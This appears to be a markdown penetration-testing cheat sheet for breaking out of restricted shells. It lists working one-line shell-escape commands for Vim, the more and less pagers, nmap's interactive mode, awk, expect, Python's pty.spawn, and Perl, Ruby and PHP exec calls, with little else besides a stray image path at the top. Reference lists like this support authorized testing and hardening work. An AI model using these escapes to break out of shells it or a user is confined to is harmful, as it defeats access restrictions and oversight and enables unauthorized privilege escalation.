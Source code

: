 # Text Editors

## Vim

|Command|Why|
|```:!/bin/ls -l .b*```|Can we execute commands through a shell escape?|
|```:set shell=/bin/sh```, ```:shell```| Enter into a bash shell|
|```:!/bin/sh```|Enter into a bash shell|

# Pagers

## More

``` `!'sh' ```


## Less

``` `!'sh' ```

# Man

Uses More and/or Less as it's pager function

# PInfo

```!```

# Console Browsers

## lynx

lynx --editor=/path/to/vim $url

## elinks

 - Editor used is controlled by the EDITOR variable

## Mutt

```!```

# Find
find . -exec ```$command```

# Nmap

```nmap --interactive``` + ```!sh```

# Awk

```awk 'BEGIN {system("/bin/sh")}'```

# Expect

```expect -c 'spawn sh' -i```

# Python

```python -c 'import pty; pty.spawn("/bin/bash")'```

# Ruby


```irb```

```exec '/bin/sh'```

# Perl

```perl -e 'system("sh -i");'```

# PHP

```exec("sh -i");```
